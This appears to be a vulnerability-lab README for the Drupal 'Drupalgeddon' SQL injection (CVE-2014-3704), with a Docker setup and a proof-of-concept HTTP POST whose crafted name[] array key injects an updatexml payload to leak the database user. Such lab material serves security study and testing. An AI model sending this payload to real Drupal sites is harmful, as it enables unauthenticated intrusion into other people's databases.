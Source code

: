 # Drupal < 7.32 "Drupalgeddon" SQL Injection Vulnerability (CVE-2014-3704)

[中文版本(Chinese version)](README.zh-cn.md)

Drupal is a free and open-source web content management framework written in PHP and distributed under the GNU General Public License.

The expandArguments function in the database abstraction API in Drupal core 7.x before 7.32 does not properly construct prepared statements, which allows remote attackers to conduct SQL injection attacks via an array containing crafted keys.

References:

- <https://www.drupal.org/SA-CORE-2014-005>
- <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3704>

## Vulnerable Environment

Execute the following command to start a Drupal 7.31.

```
docker compose up -d
```

After the server is started, browse ``http://your-ip:8080`` to see the Drupal installation wizard, and use the default configuration to install it.

Note that the Mysql database name is ``drupal``, the database username and password is ``root``, and the address is ``mysql``:

![](1.png)

After the installation is complete, browse the home page.

![](2.png)

## POC

The SQL injection does not require authentication and can execute malicious SQL statements by sending the following request.

```
POST /?q=node&destination=node HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 120

pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,user()),0)%23]=bob&name[0]=a
```

As can be seen, the SQL statement reports an error message with user data.

![](3.png)
